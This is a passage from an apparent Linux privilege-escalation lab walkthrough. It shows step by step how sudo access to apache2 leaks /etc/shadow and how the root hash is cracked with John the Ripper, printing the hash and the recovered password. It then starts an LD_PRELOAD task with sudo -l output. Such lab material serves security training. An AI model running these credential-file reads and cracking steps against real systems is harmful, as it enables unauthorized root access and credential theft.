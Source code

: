 Linux VM

1. In command prompt type: `sudo apache2 -f /etc/shadow`
2. From the output, copy the root hash.

~~~
TCM@debian:~$ sudo apache2 -f /etc/shadow
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
~~~

Attacker VM

1. Open command prompt and type: `echo '[Pasted Root Hash]' > hash.txt`
2. In command prompt type: `john --wordlist=/usr/share/wordlists/nmap.lst hash.txt`
3. From the output, notice the cracked credentials.

~~~
kali@kali:/data/Linux_PrivEsc_Arena/files$ echo 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::' > roothash.txt
kali@kali:/data/Linux_PrivEsc_Arena/files$ /data/src/john/run/john roothash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (root)
1g 0:00:00:01 DONE (2020-08-24 23:14) 0.7518g/s 1154p/s 1154c/s 1154C/s cuties..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

# [Task 10] Privilege Escalation - Sudo (LD_PRELOAD)

**Detection**

Linux VM

1. In command prompt type: `sudo -l`
2. From the output, notice that the `LD_PRELOAD` environment variable is intact.

~~~
TCM@debian:~$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
~~~
